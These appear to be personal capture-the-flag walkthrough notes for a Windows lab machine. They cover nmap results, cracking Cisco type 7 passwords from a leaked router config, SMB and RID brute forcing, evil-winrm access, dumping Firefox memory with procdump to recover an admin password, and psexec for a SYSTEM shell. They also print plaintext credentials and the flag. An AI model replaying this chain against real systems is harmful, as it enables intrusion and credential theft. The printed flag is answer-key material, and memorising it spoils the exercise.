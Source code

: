nmap:
```bash
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 1m37s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-04-18T11:59:37
|_  start_date: N/A
```
windows server running php

Website login as guest and check attachment
```bash
version 12.2
no service pad
service password-encryption
!
isdn switch-type basic-5ess
!
hostname ios-1
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
!
ip ssh authentication-retries 5
ip ssh version 2
!
!
router bgp 100
 synchronization
 bgp log-neighbor-changes
 bgp dampening
 network 192.168.0.0Â mask 300.255.255.0
 timers bgp 3 9
 redistribute connected
!
ip classless
ip route 0.0.0.0 0.0.0.0 192.168.0.1
!
!
access-list 101 permit ip any any
dialer-list 1 protocol ip list 101
!
no ip http server
no ip http secure-server
!
line vty 0 4
 session-timeout 600
 authorization exec SSH
 transport input ssh
 ```
 
 cisco router type 7 can be decrypted
 rout3r:$uperP@ssword
 admin:```Q4)sJu\Y8qz*A3?d```
 seceret: stealth1agent
 
 smb login with hazard:stealth1agent
 
 RID brute force with lookupsid.py for usernames
 ```bash
 rout3r
 admin
 hazard
 support
 chance
 jason
```
now brute force with new users

winrm login with chase and ```Q4)sJu\Y8qz*A3?d```

use evilwinrm to get shell
some dir magic on windows:
```powershell
gci -recurse . | select fullname
```

Can dump process with sysinternals procdump64 -ma of firefox processes adn find password for website
get new password for admin with winrm
```
administrator:4dD!5}x/re8]FBuZ
```
use psexec.py and root shell

```a8345179a73e5c95a7d25de9c87cfd30```